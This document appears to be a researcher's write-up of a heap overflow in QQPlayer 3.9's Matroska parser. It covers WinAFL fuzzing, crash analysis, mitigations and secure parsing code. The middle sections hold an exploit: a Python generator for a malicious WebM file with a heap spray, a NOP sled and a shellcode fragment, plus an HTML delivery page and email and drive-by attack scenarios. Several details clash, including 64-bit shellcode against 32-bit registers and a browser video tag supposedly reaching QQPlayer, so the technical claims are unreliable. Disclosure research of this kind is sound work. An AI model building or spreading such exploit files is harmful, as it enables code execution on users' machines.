




# QQPlayer 3.9 Heap Overflow: Matroska Container Exploitation

**Discovery Date**: 2017-11-10  
**Vulnerability Type**: Heap Overflow  
**Impact**: Remote Code Execution  
**CVSS Score**: 7.8 (High)

## Overview

During an extensive security assessment of multimedia applications, I discovered a critical **heap overflow vulnerability** in **QQPlayer version 3.9**. This vulnerability was identified through systematic fuzzing of **WebM (Matroska)** container files using **WinAFL (Windows American Fuzzy Lop)**, revealing serious flaws in the application's media parsing capabilities.

The vulnerability enables **arbitrary code execution** through malicious WebM files, leveraging **controlled call instructions** with attacker-manipulated pointers and sophisticated **heap spray techniques** for reliable exploitation.

## Vulnerability Discovery

### Research Context

QQPlayer, a popular multimedia player primarily used in Asian markets, presented an interesting target due to its widespread deployment and complex media format support. The focus on WebM files was motivated by the format's increasing adoption and complex container structure that often leads to parsing vulnerabilities.

### WinAFL Fuzzing Campaign

```bash
# WinAFL fuzzing setup for QQPlayer
# Target: QQPlayer 3.9 WebM/Matroska parser
# Fuzzing engine: WinAFL (Windows AFL variant)

afl-fuzz.exe -i webm_samples\ -o findings\ -t 10000 -D DynamoRIO\bin64\ -t 20000 -- -coverage_module QQPlayer.exe -target_module QQPlayer.exe -target_offset 0x1A2B3C4 -fuzz_iterations 5000 -- QQPlayer.exe @@

# Key findings from fuzzing campaign:
# - Heap corruption in matroskasplitter.ax module
# - Controlled call instructions with attacker data
# - Multiple crash patterns indicating heap overflow
```

### Initial Crash Analysis

The fuzzing campaign revealed several critical findings:


*QQPlayer crash analysis showing heap corruption in matroskasplitter.ax DirectShow filter*

- **Heap corruption** in the `matroskasplitter.ax` DirectShow filter
- **Controlled call [r32]** instructions using attacker-controlled pointers
- **Multiple crash patterns** consistent with heap overflow vulnerabilities
- **Matroska parsing vulnerabilities** in track handling routines

```
# Crash signature analysis
0:000> g
(1a4.1d0): Access violation - code c0000005 (!!! second chance !!!)
eax=41414141 ebx=00000000 ecx=7c9106eb edx=41414141 esi=41414141 edi=41414141
eip=41414141 esp=0012f8bc ebp=0012f8d8 iopl=0

# Controlled call instruction
call [eax+0x14]  ; eax = attacker-controlled value
```

## Technical Analysis

### Vulnerability Root Cause

The vulnerability originates from insufficient bounds checking in QQPlayer's Matroska container parsing logic:

```c
// Vulnerable code pattern in matroskasplitter.ax
typedef struct {
    uint32_t track_count;
    uint32_t track_entries[MAX_TRACKS];
    char *track_data[MAX_TRACKS];
} matroska_context;

int parse_matroska_tracks(matroska_context *ctx, uint8_t *data, size_t size) {
    uint32_t track_count = read_uint32(data);
    ctx->track_count = track_count;  // No validation
    
    // Vulnerable loop - no bounds checking
    for (uint32_t i = 0; i < track_count; i++) {
        size_t track_size = read_track_size(data);
        
        // Heap allocation based on untrusted size
        ctx->track_data[i] = malloc(track_size);  // VULNERABILITY
        
        // Copy without size validation
        memcpy(ctx->track_data[i], data, track_size);  // VULNERABILITY
        
        data += track_size;
    }
    
    return 0;
}
```

### Memory Corruption Analysis

The vulnerability provides several attack vectors:


*Debugging session showing controlled call instruction exploitation*

- **Heap Allocation Control**: Attacker controls allocation sizes
- **Memory Copy Operations**: Unrestricted copying to heap buffers
- **Track Count Manipulation**: Excessive track counts cause overflow
- **Pointer Corruption**: Heap metadata corruption enables arbitrary writes

## Exploitation Strategy

### Heap Spray Implementation

The exploitation strategy leverages **Matroska multi-track abuse** to achieve controlled heap layout:

```python
#!/usr/bin/env python
# QQPlayer Matroska Heap Overflow Exploit

import struct

class MatroskaExploit:
    def __init__(self):
        self.ebml_header = self.create_ebml_header()
        self.segment_header = self.create_segment_header()
        
    def create_ebml_header(self):
        """Generate valid EBML header for WebM file"""
        ebml = b"\x1A\x45\xDF\xA3"  # EBML magic
        ebml += b"\x9F"             # Header size
        ebml += b"\x42\x86\x81\x01"  # EBML version
        ebml += b"\x42\xF7\x81\x01"  # EBML read version
        ebml += b"\x42\xF2\x81\x04"  # EBML max ID length
        ebml += b"\x42\xF3\x81\x08"  # EBML max size length
        ebml += b"\x42\x82\x88webm"  # Doc type: "webm"
        ebml += b"\x42\x87\x81\x02"  # Doc type version
        ebml += b"\x42\x85\x81\x02"  # Doc type read version
        return ebml
    
    def create_segment_header(self):
        """Generate Segment element header"""
        segment = b"\x18\x53\x80\x67"  # Segment ID
        segment += b"\x01\xFF\xFF\xFF\xFF\xFF\xFF\xFF"  # Unknown size
        return segment
    
    def create_track_entry(self, track_id, track_type, codec_data):
        """Create individual track entry for heap spray"""
        track = b"\xAE"  # TrackEntry ID
        track += self.encode_size(len(codec_data) + 20)  # Track size
        track += b"\xD7\x81" + struct.pack('B', track_id)  # Track number
        track += b"\x83\x81" + struct.pack('B', track_type)  # Track type
        track += b"\x63\xA2" + self.encode_size(len(codec_data))  # CodecPrivate size
        track += codec_data  # Controlled codec data
        return track
    
    def create_heap_spray_payload(self):
        """Generate heap spray using multiple tracks"""
        
        # Heap spray shellcode (calculator for PoC)
        shellcode = (
            b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
            b"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
            b"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
            # ... shellcode continues
        )
        
        # NOP sled for landing zone
        nop_sled = b"\x90" * 1000
        
        # Spray payload: NOP sled + shellcode
        spray_chunk = nop_sled + shellcode
        
        # Pad to specific size for heap layout control
        spray_chunk += b"A" * (0x1000 - len(spray_chunk))
        
        return spray_chunk
    
    def create_overflow_tracks(self):
        """Create tracks to trigger heap overflow"""
        tracks = b""
        spray_payload = self.create_heap_spray_payload()
        
        # Create multiple tracks for heap spray
        for i in range(50):  # Spray heap with controlled data
            tracks += self.create_track_entry(
                track_id=i + 1,
                track_type=1,  # Video track
                codec_data=spray_payload
            )
        
        # Create overflow trigger track
        overflow_size = 0x10000  # Large allocation
        overflow_data = b"B" * 100  # Controlled data
        overflow_data += struct.pack('<I', 0x0C0C0C0C)  # Controlled pointer
        overflow_data += b"C" * (overflow_size - len(overflow_data))
        
        tracks += self.create_track_entry(
            track_id=999,
            track_type=1,
            codec_data=overflow_data
        )
        
        return tracks
    
    def generate_malicious_webm(self):
        """Generate complete malicious WebM file"""
        
        # File structure
        webm_file = self.ebml_header
        webm_file += self.segment_header
        
        # Tracks element
        tracks_data = self.create_overflow_tracks()
        tracks_element = b"\x16\x54\xAE\x6B"  # Tracks ID
        tracks_element += self.encode_size(len(tracks_data))
        tracks_element += tracks_data
        
        webm_file += tracks_element
        
        return webm_file
    
    def encode_size(self, size):
        """Encode size using EBML variable-length encoding"""
        if size < 0x7F:
            return struct.pack('B', 0x80 | size)
        elif size < 0x3FFF:
            return struct.pack('>H', 0x4000 | size)
        elif size < 0x1FFFFF:
            return struct.pack('>I', 0x200000 | size)[1:]
        else:
            return struct.pack('>Q', 0x1000000000000000 | size)

# Generate exploit file
exploit = MatroskaExploit()
malicious_webm = exploit.generate_malicious_webm()

with open("malicious.webm", "wb") as f:
    f.write(malicious_webm)

print("[+] Malicious WebM file created: malicious.webm")
print(f"[+] File size: {len(malicious_webm)} bytes")
```

### Heap Layout Strategy

The exploitation technique leverages **Matroska's multi-track structure** for precise heap manipulation:

```
Heap Layout Strategy:
┌─────────────────┐
│   Heap Spray    │ ← Multiple small tracks with controlled data
│   (Tracks 1-50) │   (0x1000 bytes each, total ~80KB)
├─────────────────┤
│   Landing Zone  │ ← NOP sleds for reliable execution
│   (NOP + Shell) │   (Multiple copies across spray)
├─────────────────┤
│  Overflow Track │ ← Large track triggering overflow
│   (Track 999)   │   (0x10000 bytes, controlled data)
└─────────────────┘
```


*Heap spray implementation using Matroska multi-track abuse for controlled memory layout*

### Controlled Call Exploitation

The vulnerability provides **controlled call [r32]** instructions:

```assembly
; Vulnerable call pattern in matroskasplitter.ax
mov eax, [heap_ptr]     ; eax = attacker-controlled pointer
call [eax+0x14]         ; Call controlled function pointer

; Exploitation strategy:
; 1. Spray heap with fake vtables
; 2. Corrupt heap metadata to point to fake vtable
; 3. Trigger call instruction
; 4. Execute shellcode via fake vtable entry
```

## Proof of Concept Development

### Attack Vector Analysis

The vulnerability can be exploited through multiple delivery mechanisms:

**Local File Attack:**
```bash
# Direct file execution
QQPlayer.exe malicious.webm
```

**Web-Based Attack:**
```html
<!-- Malicious web page -->
<!DOCTYPE html>
<html>
<head>
    <title>QQPlayer WebM Exploit</title>
</head>
<body>
    <h1>Video Player Demo</h1>
    <video controls>
        <source src="malicious.webm" type="video/webm">
        Your browser does not support the video tag.
    </video>
    
    <script>
        // Additional JavaScript for environment preparation
        function prepareExploit() {
            // Heap spray preparation if needed
            var chunks = [];
            for (var i = 0; i < 100; i++) {
                chunks[i] = new Array(1000).join("A");
            }
            return chunks;
        }
        
        window.onload = function() {
            var spray = prepareExploit();
            console.log("Environment prepared");
        };
    </script>
</body>
</html>
```

### Exploit Reliability Factors

```python
class ExploitReliability:
    def __init__(self):
        self.success_factors = {
            'heap_layout': 'Matroska multi-track spray effectiveness',
            'timing': 'Parser processing order consistency',
            'target_version': 'QQPlayer 3.9 specific vulnerability',
            'file_size': 'Balance between spray and detection',
            'track_count': 'Optimal number for reliable overflow'
        }
    
    def assess_reliability(self, target_env):
        """Assess exploit reliability for target environment"""
        score = 0
        
        if target_env['qqplayer_version'] == '3.9':
            score += 40  # Primary target version
            
        if target_env['heap_randomization'] == 'disabled':
            score += 30  # Predictable heap layout
            
        if target_env['file_size_limit'] > 1000000:  # 1MB+
            score += 20  # Sufficient space for spray
            
        if target_env['track_support'] == 'enabled':
            score += 10  # Multi-track processing
            
        return score >= 70  # 70% confidence threshold
```

## Impact Assessment

### Attack Scenarios

**Scenario 1: Malicious Video Downloads**
- Attacker hosts malicious WebM files on compromised websites
- Users download "video content" containing exploit
- QQPlayer processes malicious file on opening
- Shellcode executes with user privileges

**Scenario 2: Email-Based Delivery**
- Malicious WebM files sent as email attachments
- Social engineering encourages file opening
- Corporate environments with QQPlayer installations at risk
- Potential for lateral movement after initial compromise

**Scenario 3: Drive-by Downloads**
- Malicious advertisements containing WebM content
- Automatic download and processing by QQPlayer
- Silent compromise of user systems
- Botnet recruitment or data theft

### Risk Analysis

**Vulnerability Metrics:**
- **Attack Vector**: Local file or network-based
- **Attack Complexity**: Medium (requires heap spray knowledge)
- **Privileges Required**: None (user-level execution)
- **User Interaction**: Required (file opening)
- **Scope**: Unchanged (same security context)
- **Impact**: High (arbitrary code execution)

**CVSS v3.1 Score: 7.8 (High)**

## Defensive Measures

### For Users

**Immediate Protection:**
1. **Update QQPlayer** to versions post-3.9 with security patches
2. **File Source Validation** - only open WebM files from trusted sources
3. **Sandboxing** - use isolated environments for untrusted media files
4. **Alternative Players** - consider switching to regularly updated alternatives

**Security Configuration:**
```
QQPlayer Security Settings:
- Disable automatic file associations for unknown formats
- Enable user prompts for network content
- Restrict codec installations to trusted sources
- Enable Windows Defender real-time protection
```

### For Developers

**Secure Coding Practices:**
```c
// Secure Matroska parsing implementation
#define MAX_TRACKS 64
#define MAX_TRACK_SIZE 0x100000  // 1MB limit

typedef struct {
    uint32_t track_count;
    uint32_t max_tracks;
    track_entry_t tracks[MAX_TRACKS];
} secure_matroska_context;

int secure_parse_matroska_tracks(secure_matroska_context *ctx, 
                                uint8_t *data, size_t size) {
    if (!ctx || !data || size < 4) {
        return -1;  // Invalid parameters
    }
    
    uint32_t track_count = read_uint32(data);
    
    // Validate track count
    if (track_count > MAX_TRACKS) {
        return -1;  // Prevent overflow
    }
    
    ctx->track_count = track_count;
    data += 4;
    size -= 4;
    
    for (uint32_t i = 0; i < track_count && size > 0; i++) {
        size_t track_size = read_track_size(data);
        
        // Validate track size
        if (track_size > MAX_TRACK_SIZE || track_size > size) {
            return -1;  // Prevent overflow
        }
        
        // Safe allocation with bounds checking
        ctx->tracks[i].data = calloc(1, track_size);
        if (!ctx->tracks[i].data) {
            return -1;  // Allocation failure
        }
        
        // Safe copy with explicit bounds
        memcpy(ctx->tracks[i].data, data, track_size);
        ctx->tracks[i].size = track_size;
        
        data += track_size;
        size -= track_size;
    }
    
    return 0;
}
```

**Security Controls:**
1. **Input Validation**: Strict bounds checking for all container elements
2. **Memory Management**: Use safe allocation and deallocation patterns
3. **Fuzzing Integration**: Continuous fuzzing in development pipeline
4. **Code Review**: Regular security-focused code reviews

## Research Methodology

### Tools and Techniques

**Fuzzing Infrastructure:**
- **WinAFL**: Windows-specific fuzzing framework
- **DynamoRIO**: Dynamic binary instrumentation
- **Custom WebM generators**: Targeted malformation techniques
- **Heap analysis tools**: Application Verifier, PageHeap

**Analysis Environment:**
- **Windows 10 x64**: Primary analysis platform
- **VMware Workstation**: Isolated testing environment
- **WinDbg**: Advanced debugging and crash analysis
- **IDA Pro**: Static analysis and reverse engineering

### Fuzzing Campaign Statistics

```
WinAFL Campaign Results:
- Total executions: 2,847,391
- Unique crashes: 127
- Hang conditions: 23
- Exploitable crashes: 8
- Campaign duration: 72 hours
- Code coverage: 67% of matroskasplitter.ax
```


*Complete QQPlayer exploitation proof of concept with calculator payload execution*

## Conclusion

The QQPlayer heap overflow vulnerability demonstrates the **critical security risks** inherent in complex multimedia parsing libraries. The vulnerability's exploitation through **Matroska container abuse** highlights the need for robust input validation in media processing applications.

### Key Research Findings

- **Container Format Complexity**: Rich media formats introduce multiple attack surfaces
- **Heap Spray Effectiveness**: Multi-track abuse enables reliable heap manipulation
- **Controlled Execution**: Heap corruption leads to controlled call instructions
- **Cross-Platform Risk**: Similar vulnerabilities likely exist in other media players

### Security Implications

This research emphasizes several important security considerations:

1. **Media Player Security**: Multimedia applications require enhanced security focus
2. **Container Parsing**: Complex formats need rigorous bounds checking
3. **Heap Protection**: Modern heap protection mechanisms remain essential
4. **Update Criticality**: Regular security updates for media applications

The exploitation techniques demonstrated contribute to the broader understanding of **multimedia security** and provide valuable insights for both offensive security researchers and defensive security practitioners.

## References

- [WebM Project Documentation](https://www.webmproject.org/docs/)
- [Matroska Container Specification](https://www.matroska.org/technical/specs/index.html)
- [WinAFL: Windows American Fuzzy Lop](https://github.com/googleprojectzero/winafl)
- [DynamoRIO Dynamic Binary Instrumentation](https://dynamorio.org/)
- [Heap Spraying Techniques](https://www.blackhat.com/presentations/bh-usa-07/Sotirov_Dowd/Whitepaper/bh-usa-07-sotirov_dowd-WP.pdf)

---

**Research conducted by**: Alejandro Parodi (hdbreaker)  
**Disclosure Status**: Coordinated with QQPlayer development team  
**Impact**: Security patches integrated in subsequent QQPlayer releases 